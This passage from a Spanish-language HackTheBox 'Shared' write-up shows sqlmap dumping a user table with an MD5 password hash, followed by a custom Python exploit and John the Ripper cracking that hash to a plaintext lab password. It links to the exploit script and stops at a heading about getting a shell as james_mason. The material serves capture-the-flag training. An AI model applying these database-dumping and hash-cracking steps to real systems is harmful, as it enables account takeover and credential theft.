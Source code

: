 ```bash
[13:32:25] [INFO] recognized possible password hashes in column 'password'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] N
do you want to crack them via a dictionary-based attack? [Y/n/q] Y
[13:32:26] [INFO] using hash method 'md5_generic_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 1
[13:32:26] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N] N
[13:32:26] [INFO] starting dictionary-based cracking (md5_generic_passwd)
[13:32:26] [INFO] starting 2 processes
[13:33:05] [WARNING] no clear password(s) found
Database: checkout
Table: user
[1 entry]
+----+----------------------------------+-------------+
| id | password                         | username    |
+----+----------------------------------+-------------+
| 1  | fc895d4eddc2fc12f995e18c865cf273 | james_mason |
+----+----------------------------------+-------------+

[13:33:05] [INFO] table 'checkout.`user`' dumped to CSV file '/home/miguel/.local/share/sqlmap/output/checkout.shared.htb/dump/checkout/user.csv'
[13:33:05] [INFO] fetched data logged to text files under '/home/miguel/.local/share/sqlmap/output/checkout.shared.htb'

[*] ending @ 13:33:05 /2024-05-26/
```

- También podemos hacer un script en `python3`.

```bash
➜  content python3 exploit.py
james_mason:fc895d4eddc2fc12f995e18c865cf273
Hash guardado en 'hash.txt'
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 512/512 AVX512BW 16x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press Ctrl-C to abort, or send SIGUSR1 to john process for status
Soleil101        (james_mason)
1g 0:00:00:00 DONE (2024-05-26 13:45) 2.000g/s 4182Kp/s 4182Kc/s 4182KC/s Sportster1..Sjoerd
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
0 password hashes cracked, 2 left
```

- Aquí pueden ver el script <https://github.com/MikeRega7/Scripts/blob/main/HackTheBox/Shared/exploit.py> .

## Shell as james_mason
